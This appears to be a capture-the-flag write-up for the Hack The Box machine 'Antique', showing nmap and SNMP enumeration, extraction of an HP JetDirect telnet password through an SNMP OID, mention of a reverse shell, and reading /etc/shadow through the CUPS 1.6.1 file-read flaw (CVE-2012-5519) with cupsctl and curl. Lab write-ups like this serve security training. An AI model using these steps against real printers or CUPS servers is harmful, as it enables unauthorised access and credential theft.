





# Antique
## Enumeration
- `nmap`

```
└─$ nmap -sC -sV -Pn 10.10.11.107
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-09 15:59 BST
Nmap scan report for 10.10.11.107 (10.10.11.107)
Host is up (0.12s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.94%I=7%D=8/9%Time=64D3A9E6%P=x86_64-pc-linux-gnu%r(NULL,
SF:F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPass
SF:word:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRequ
SF:est,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSV
SF:ersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatusRe
SF:questTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20Je
SF:tDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerber
SF:os,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20Je
SF:tDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(
SF:LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19,"
SF:\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalSer
SF:ver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,"\
SF:nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirect\
SF:n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20JetDi
SF:rect\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 181.59 seconds

```
- `telnet`
```
└─$ telnet 10.10.11.107     
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: admin
Invalid password
Connection closed by foreign host.
```
- Nothing to see, so I scanned `UDP` ports
```
└─$ sudo nmap -sU -sV 10.10.11.107
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-09 16:38 BST
Stats: 0:09:01 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
Nmap scan report for 10.10.11.107 (10.10.11.107)
Host is up (0.10s latency).
Not shown: 999 closed udp ports (port-unreach)
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1013.71 seconds
```
- `snmp`
```
└─$ snmpwalk -v 2c -c public 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
```
## Foothold/User
- According to this [post](http://www.irongeek.com/i.php?page=security/networkprinterhacking#JetDirect%20password%20notes) we can retrieve password
  - We need to ask for `.1.3.6.1.4.1.11.2.3.9.1.1.13.0`

```
└─$ snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```

- Now we need to convert it from hex to ascii


- Try password for `telnet`
  - `P@ssw0rd@123!!123`



- Let's call help menu



- Now let's try get execution and reverse shell




## Root
- Enumeration shows port `631` open

```
lp@antique:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      1016/python3        
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                    
```

- We can perform port forwarding using `chisel`
  - Or check the list of processes and take a guess
  - We see `cups` service
  - Checking config shows that indeed port `631` belongs to `cups`




- If we `curl` we see the version is `1.6.1`


- If we check [github post](https://github.com/p1ckzi/CVE-2012-5519/blob/main/cups-root-file-read.sh)
  - We see that we need to call `cupsctl ErrorLog={FILE}`
  - And then `curl 127.0.0.1:631/admin/log/error_log?`
  - So let's read `shadow` file
  - It works, but it's not crackable


